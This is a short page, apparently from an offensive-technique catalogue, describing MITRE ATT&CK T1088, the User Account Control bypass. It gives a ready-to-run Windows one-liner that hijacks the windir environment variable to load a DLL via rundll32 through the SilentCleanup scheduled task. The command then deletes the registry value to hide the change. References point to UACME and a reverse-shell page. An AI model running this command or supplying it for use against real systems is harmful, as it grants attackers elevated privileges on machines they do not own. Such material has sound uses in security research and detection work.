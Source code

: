 # Bypass User Account Control

---
* **ID**: T1088
* **Source**: <https://attack.mitre.org/techniques/T1088/>
---

# Details

## Exploiting environment variables in Scheduled Task for User Account Control (UAC) bypass

```
reg add HKCU\Environment /v windir /d "rundll32 %APPDATA%\temp.txt,DllMain " /f&schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I & reg delete HKCU\Environment /v windir /f
```

# References

* <https://github.com/hfiref0x/UACME>
* <https://tyranidslair.blogspot.com/2017/05/exploiting-environment-variables-in.html>
* <https://www.puckiestyle.nl/c-simple-reverse-shell/>
